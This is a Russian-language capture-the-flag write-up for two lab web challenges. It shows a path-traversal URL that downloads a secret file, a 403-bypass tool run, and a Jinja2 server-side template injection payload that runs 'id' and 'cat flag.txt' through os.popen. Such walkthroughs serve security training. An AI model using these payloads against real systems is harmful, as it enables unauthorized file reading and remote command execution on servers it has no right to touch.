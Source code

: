 web 1

1. Проводим осмотр веб-приложения. И находим ссылку: ![Screenshot_2024-03-21_11_49_29](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/89ffc2c9-6dab-4ca0-b43c-ac2a543a2b67) Перейдя по ней видим подсказку, что файл с флагом может находиться в директории etc/secret: ![Screenshot_2024-03-21_11_50_45](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/1dcf0c00-b9c7-4a70-8cfc-b424bb8773f1)

2. Чтобы скачать необходимый файл с сервера, воспользуемся уязвимостью "file inclusion". Введем в адресную строку: http://192.168.12.10:5001/download?file_type=/../../../../../../etc/secret. Скачивается нужный файл: ![Screenshot_2024-03-21_11_54_12](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/272ec935-ed57-40d3-9ebd-f3f918f99443)
В нем находится флаг: ![Screenshot_2024-03-21_11_55_59](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/40f75ce4-6e24-4d2c-989d-bb41cd7e3b82)





------------------------------------------------------

web3

1. При вводе данных сайт выдает ошибку: "403 Forbidden". Ее можно обойти с помощью скрипта Bypass-403: https://github.com/iamj0ker/bypass-403.

2. Для установки скрипта введем следующие команды в терминале:
	1) git clone https://github.com/iamj0ker/bypass-403
	2) cd bypass-403
	3) chmod +x bypass-403.sh
	
3. Введем команду, в которой укажем наш сайт и путь к файлу flag.txt: ./bypass-403.sh http://192.168.12.11:8001 flag

4. Программа выдает несколько адресов:![Screenshot_2024-03-21_10_14_41](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/5a1e2f9f-79a3-4636-a75c-9ee38b49566e) Выбираем один из адресов с наибольшим временем, например: http://192.168.12.11:8001//flag//, переходим по ссылке и получаем следующий результат:![Screenshot_2024-03-21_10_20_47](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3feedbef-f71d-434b-a1e7-2bfdbbe872b4)
 
5. Теперь посмотрим на исходный код сайта, а именно на файл "app.py". В строке 24 мы видим, что функции передается параметр "name". Функция выдает два результата в зависимости от полученных данных. Если имя не содержит запрещенных символов, то на экран выводится сообщение "привет <имя>", в противном случае: "Содержит запрещенные символы". ![Screenshot_2024-03-21_10_22_30](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2dfe648e-5648-4b61-8774-6593b7193ec3)


6. Попробуем передать функции параметр "name". Напишем в адресной строке браузера: http://192.168.12.11:8001//flag?name=abc. Получаем следующее:![Screenshot_2024-03-21_10_27_39](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3b0595e7-b42a-4994-ba1a-a94359557a73) Далее вместо "abc" напишем запрещенные символы: "mro". Видим следующее:![Screenshot_2024-03-21_10_31_20](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/f0d634dd-64ec-4aff-892b-1837dfc79207) На первый взгляд кажется, что функция работает корректно.

7. Вполне возможно, что сайт имеет уязвимость. С помощью SSTI (внедрения шаблонов на стороне сервера) попробуем что-нибудь достать с сервера. Введем в адресную строку вместо "mro" "{{2*22}}". На экране выдим рузультат математической операции:![Screenshot_2024-03-21_10_34_42](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/a7f98e6c-1b32-49f9-9d91-906c0030df57)
Сервер не заметил запрещенные символы и выполнил команду. Это и есть уязвимость.

8. Проверим, выведет ли сервер ID файлов, которые хранятся на нем. Откроем документацию на GitHub (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2) и найдем следующий пункт "Exploit the SSTI by calling os.popen().read()". Вместо "{{2*22}}" введем "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}". Получаем:![Screenshot_2024-03-21_10_42_32](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2b99527f-7580-4f0f-b02b-af9f7116badf) Сервер выдал ID файлов.

9. Если сервер вывел ID файлов, то он может вывести и содержимое файлов. Нам необходимо найти флаг, поэтому введем команду: http://192.168.12.11:8001//flag?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}; и получим флаг: ![Screenshot_2024-03-21_10_45_13](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/909398a7-b9c5-4673-8a77-6948c6060872)
 
